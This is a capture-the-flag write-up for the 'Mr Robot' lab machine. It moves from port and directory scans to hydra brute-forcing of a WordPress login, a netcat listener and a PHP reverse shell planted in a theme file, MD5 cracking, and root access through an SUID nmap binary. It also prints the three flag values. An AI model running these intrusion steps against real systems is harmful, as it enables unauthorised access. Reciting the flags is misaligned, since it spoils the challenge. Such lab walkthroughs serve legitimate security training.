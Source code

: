 # Mr Robot CTF

**Title:** Mr Robot<br>
**IP Address:** 10.10.221.177<br>

## Scans

### NMAP Scan
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-18 21:41 PST
Nmap scan report for 10.10.221.177 (10.10.221.177)
Host is up (0.27s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.49 seconds

```

### GoBuster Scan
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.221.177
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/18 21:55:23 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 236] [--> http://10.10.221.177/images/]
/blog                 (Status: 301) [Size: 234] [--> http://10.10.221.177/blog/]  
/rss                  (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/]    
/sitemap              (Status: 200) [Size: 0]                                     
/login                (Status: 302) [Size: 0] [--> http://10.10.221.177/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.221.177/0/]          
/feed                 (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/]       
/video                (Status: 301) [Size: 235] [--> http://10.10.221.177/video/]    
/image                (Status: 301) [Size: 0] [--> http://10.10.221.177/image/]      
/atom                 (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/atom/]  
/wp-content           (Status: 301) [Size: 240] [--> http://10.10.221.177/wp-content/]
/admin                (Status: 301) [Size: 235] [--> http://10.10.221.177/admin/]     
/audio                (Status: 301) [Size: 235] [--> http://10.10.221.177/audio/]     
/wp-login             (Status: 200) [Size: 2613]                                      
/intro                (Status: 200) [Size: 516314]                                    
/css                  (Status: 301) [Size: 233] [--> http://10.10.221.177/css/]       
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/]        
/license              (Status: 200) [Size: 309]                                       
/wp-includes          (Status: 301) [Size: 241] [--> http://10.10.221.177/wp-includes/]
/js                   (Status: 301) [Size: 232] [--> http://10.10.221.177/js/]         
/Image                (Status: 301) [Size: 0] [--> http://10.10.221.177/Image/]        
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/rdf/]     
/page1                (Status: 301) [Size: 0] [--> http://10.10.221.177/]              
/readme               (Status: 200) [Size: 64]                                         
/robots               (Status: 200) [Size: 41]
```

## Flags

### Flag 1
1. After the GoBuster scan, `/robots` directory was found. It shows the content:
  ```
  User-agent: *
  fsocity.dic
  key-1-of-3.txt
  ```
2. Visting the page on the directory `/key-1-of-3.txt` gives the first flag:
  ```
  073403c8a58a1f80d943455fb30724b9
  ```

### Flag 2
1. After the GoBuster scan, a `/login` page and `/robots` directory was found. The `/robots` directory shows the content:
  ```
  User-agent: *
  fsocity.dic
  key-1-of-3.txt
  ```
2. Download `fsocity.dic` by going to the directory `/fsocity.dic` and saving the raw page.
3. Brute force username and password on the `/login` page using hydra.
 
 ***For username***
  ```
  $ hydra -L fsocity.dic -p any 10.10.221.177 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

  [80][http-post-form] host: 10.10.221.177   login: Elliot   password: any
  ```
  ***For password***
  ```
  $ hydra -l Elliot -P fsocity.dic 10.10.221.177 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
  

  ```
  ***Credentials***: `Elliot:ER28-0652`
4. Start a `netcat` listener. Use a port that is usually trusted by firewalls.
  ```
  $ rlwrap nc -lvnp 1520
  ```
5. Use a PHP reverse shell and set the corresponding listener IP address and port.
6. In the admin Dashboard, go to Appearance > Editor, update a PHP file with the code from the PHP reverse shell (e.g. `archive.php`).
7. Load the edited PHP file (e.g. if using `archive.php`, load the URL `http://10.10.221.177/wp-content/themes/twentyfifteen/archive.php`). Reverse shell must now be activated.
8. Go to `/home/robot` directory and open `password.raw-md5` file.
  ```
  robot:c3fcd3d76192e4007dfb496cca67e13b
  ```
9. Decrypt the MD5 hash.
  ```
  Using CrackStation (crackstation.net)

                Hash	            Type	        Result
  c3fcd3d76192e4007dfb496cca67e13b	md5	    abcdefghijklmnopqrstuvwxyz
  ```
10. Spawn TTY shell in the target machine using Python.
  ```
  $ python -c 'import pty; pty.spawn("/bin/sh")'
  ```
11. Login to `robot` account using `su robot` with the password: `abcdefghijklmnopqrstuvwxyz`.
 
 ***Credentials:*** `robot:abcdefghijklmnopqrstuvwxyz`
12. Go to `/home/robot` directory and open `key-2-of-3.txt` file.
  ```
  822c73956184f694993bede3eb39f959
  ```

### Flag 3
1. While using the account `robot`. Gain priveleged access using SUID binary from `nmap`.

  Note: This was found by locating files with SUID binary bit turned on using the command:
  ```
  $ find / -perm +6000 2> /dev/null | grep '/bin/'
  ```
2. Spawn a shell using NMAP (refer to instructions at gtfobins).
  ```
  $ nmap --interactive
  nmap> !sh
  ```
3. Now, as the `root` user, `/root` directory is now accessible. The file `key-3-of-3.txt` is located in the same directory and can be read.
  ```
  04787ddef27c3dee1ee161b21670b4e4
  ```
